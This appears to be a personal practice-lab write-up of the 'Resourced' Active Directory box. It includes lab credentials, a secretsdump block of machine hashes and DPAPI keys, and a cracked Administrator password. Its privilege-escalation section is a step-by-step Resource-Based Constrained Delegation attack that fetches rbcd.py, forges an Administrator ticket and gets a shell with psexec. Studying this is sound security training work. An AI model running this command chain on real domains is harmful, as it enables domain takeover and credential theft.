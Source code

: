 # Resourced Writeup
Name: Resourced
Date:  28/09/2022
Difficulty:  Intermediate
Goals:  
- OSCP Prep 1/5 Medium Boxes in a day, writeups allowed
- Improving Noting with BoxedName-Notes.md 
Learnt:
- Wonders of secrets dump
- Sometimes escaping white is -7 worth of problem solving 
- Impacket is awesome
- Resource Based Contrained Delegation
- Exfiltrate everything, dont skip trying to exfiltrate
- Be more methodical noting TODO when handling data 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Resourced is a Active Directory box.
Guest Account disabled. But through enum4linux we get credentials:
![](passwordreminders.png)

V.Ventz HotelCalifornia194!

![](smbclientvventz.png)

`Password\ Audit` got me.

[Extract and Crack NDTS](https://bond-o.medium.com/extracting-and-cracking-ntds-dit-2b266214f277)

This is what I had:
```
[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:507fdb105d9322cf53420c95780adf5f2dcdac7ca14f8b37188370c916a3fa6f2a511bb284aeac71211c939a866a2b4cc02c408e1d242ad4f5cc8f7b85d2448c18d23fb47f7b9b543a6cfb8999e40037f23dbfd8690869753979d15fe61bdcddb0ccff3d20c275207ca93e844c3b5aa1f658198225b3e54f90e0b71aaf76ba32bb1b598d189b6696c27d04674fd4c4f2c09d0df2e59fe93850aa928be813be3bd659f0d2ecba6e34fb5a3880db8155cf77e21eb44d63e1ae65abcc2aa5bdfb6bfe85e8590329929522aae501ba86d8622918e37b41daef8a2b00e78440d13e88a31fc14714923bba6fb99e13c81b3020
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d
[*] DPAPI_SYSTEM
dpapi_machinekey:0x85ec8dd0e44681d9dc3ed5f0c130005786daddbd
dpapi_userkey:0x22043071c1e87a14422996eda74f2c72535d4931
[*] NL$KM
 0000   31 BF AC 76 98 3E CF 4A  FC BD AD 0F 17 0F 49 E7   1..v.>.J......I.
 0010   DA 65 A6 F9 C7 D4 FA 92  0E 5C 60 74 E6 67 BE A7   .e.......\`t.g..
 0020   88 14 9D 4D E5 A5 3A 63  E4 88 5A AC 37 C7 1B F9   ...M..:c..Z.7...
 0030   53 9C C1 D1 6F 63 6B D1  3F 77 F4 3A 32 54 DA AC   S...ock.?w.:2T..
NL$KM:31bfac76983ecf4afcbdad0f170f49e7da65a6f9c7d4fa920e5c6074e667bea788149d4de5a53a63e4885aac37c71bf9539cc1d16f636bd13f77f43a3254daac
```

Then went back after trying this as I had never seen this sort of output other than dpapi keys
`cd "Active Directory\ `

I tried various ways of logging in rdp, winrm, psexec with various accounts
![](nordp.png)

```bash
impacket-secretsdump -ntds ntds.dit -system  system LOCAL > bigdump
cat bigdump | grep ::: | awk -F: '{print $4}'
# Crackstation the hases
Administrator 12579b1666d4ac10f0f59f300776495f : ItachiUchiha888
```

I then exeperienced a rabbit hole with AD having all the hashes like that then I tried forging tickets, I thought I had crackmapexec L.Livingston as I saw he was a sysadmin...

![](ticketer.png)

## Foothold

L.Livingston is a sysadmin.
Regardless I have not the time left I so learnt some Resource Based Contrained Delegation

## PrivEsc

![](Livingstone.png)

Resource Based Contrained Delegation
```bash
# Kali - create a new machine account on the domain
impacket-addcomputer $domain.local/$user -dc-ip $domaincontroller-ip $domaincontroller-ip  -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
# Target - Verify 
PS > get-adcomputer attack

# Kali - Get delegation rights script to manage delegation rights
wget https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py
# set sDS-AllowedToActOnBehalfOfOtherIdentity on new machine account
sudo python3 rbcd.py -dc-ip $domaincontroller-ip -t $target -f 'ATTACK' -hashes :$hash $domain\\$user

# Target - Verify
PS> Get-adcomputer resourcedc -properties msds-allowedtoactonbehalfofotheridentity |select -expand msds-allowedtoactonbehalfofotheridentity

# Kali - Get administrator service ticket
impacket-getST -spn cifs/$dc.$domain.local $domain/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip $domaincontroller-ip 
# export the KRB55CCNAME so that impacket can load the .ccache file
export KRB5CCNAME=./Administrator.ccache
# Append /etc/hosts file with 
sudo sh -c 'echo "$domaincontroller-ip $domain.local dc.$domain.local" >> /etc/hosts'
# Psexc in!
sudo impacket-psexec -k -no-pass $dc.$domain.local -dc-ip $domaincontroller-ip
```

![](stepOne.png)
![](stepTwo.png)
![](stepThree.png)
![](stepFour.png)
![](stepFive.png)
![](wow.png)